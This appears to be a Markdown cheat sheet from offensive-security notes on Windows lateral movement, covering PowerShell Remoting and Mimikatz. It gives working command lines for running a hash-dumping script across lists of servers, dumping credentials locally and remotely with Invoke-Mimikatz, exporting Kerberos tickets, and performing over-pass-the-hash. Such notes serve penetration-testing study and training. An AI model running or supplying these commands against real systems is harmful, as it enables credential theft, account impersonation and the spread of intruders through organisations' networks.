 # Lateral Movement
---
# Navigation
- **[PowerShell Remoting](#PowerShell%20Remoting)**
- **[Mimikatz](#Mimikatz)**
---
# PowerShell Remoting
- Enabled by deafult on server 2012 onwards.
- On desktop windows machines you may need to enable it `Enable-PSRemoting` (Require admin privs).
- You get elevated shell on remote system if admin creds are used to authenticate (Default setting).

## One-to-One
### PSSession
- interactive
- Runs in a new process (wsmprovhost)
- Is stateful.
### Useful cmdlets
```powershell
New-PSSession
Enter-PSSession
```
## One-to-many
- Also know as Fan-Out-Remoting
- Non-interactive
- Executes commands parallely
- Runs Commands and scripts on
-- Multiple computers
-- In disconnected sessions (v3)
-- As background jobs and more
### Useful cmdlets
```powershell
Invoke-Command -ComputerName <ComputerName>
Invoke-Command -ComputerName (Get-Content <List-of-servers>)
Invoke-Command -ComputerName -Credential # To pass username/password
```
#### Usage Example
```powershell
#To execute a command remotely 
Invoke-Command -scriptblock {whoami;Get-Process} -ComputerName <value> -Credential <Creds>

#To execute script remotely
Invoke-Command -FilePath C:\Path\Get-PassHashes.ps1 -ComputerName (Get-Content <List-of-servers>)

#Whenever you get an error when executing commands/scripts on remote machine check for Language mode because if it's in constrained mode you won't be able to execute anything but built-in cmdlets
Invoke-Command -scriptblock {$ExecutionContext.SessionState.LanguageMode} -ComputerName <value> -Credential <Creds>
```
---
# Mimikatz
- This script is used to dump credentials,tickets and more.
- Mimikatz with PowerShell is done without dropping `mimikatz.exe` to disk.
- It is useful for passing and relaying hashes,tickets and for many active directory attacks.
- The script needs admin privs for dumping creds from local machine.
### Usage
```powershell
#Powersploit module
#Dump credentials on a local machine (Default)
Invoke-Mimikatz -DumpCreds

#Dump creds on multiple remote machines
Invoke-Mimikatz -DumpCreds -ComputerName @("system1","system2")

#Above commands uses PowerShell cmdlet "Invoke-Command" to do their jobs.
```
### Export all kerberoas tickets to disk.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"kerberoas::list /export"'
```
### "Over pass the hash" generate tokens from hashes.
```powershell
#Powersploit module
Invoke-Mimikatz -command '"sekurlsa::pth /user:administrator /domain <DOMAIN> /ntlm:<NTLM> /run:powershell.exe"'
```
